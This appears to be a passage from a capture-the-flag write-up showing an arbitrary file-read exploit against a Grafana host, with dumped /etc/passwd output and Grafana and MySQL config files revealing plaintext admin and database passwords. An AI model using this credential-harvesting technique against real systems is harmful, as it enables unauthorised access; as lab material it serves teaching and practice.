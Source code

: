 ```bash
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false

Read file >
```
```bash
grep sh$ passwd
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```
```bash
grep graf passwd
grafana:x:113:118::/usr/share/grafana:/bin/false
```

looking at the documentation for grafana, we're pulling the default config location for an ubuntu install
```bash
/etc/grafana/grafana.ini
```
the only non default config is the admin password
and it successfully logs us in the admin portal
```
admin_password = messageInABottle685427
```
the portal shows that the config file for the datasource is "mysql.yaml"   
again looking a little into the documentation, we're pulling the mysql datasource config file with the same exploit  
and that gives us the  password for the grafana mysql database user  
```yaml
Read file > /etc/grafana/provisioning/datasources/mysql.yaml
apiVersion: 1

datasources:
 - name: mysql.yaml
   type: mysql
   host: localhost
   database: grafana
   user: grafana
   password: dontStandSoCloseToMe63221!
   editable: false
```
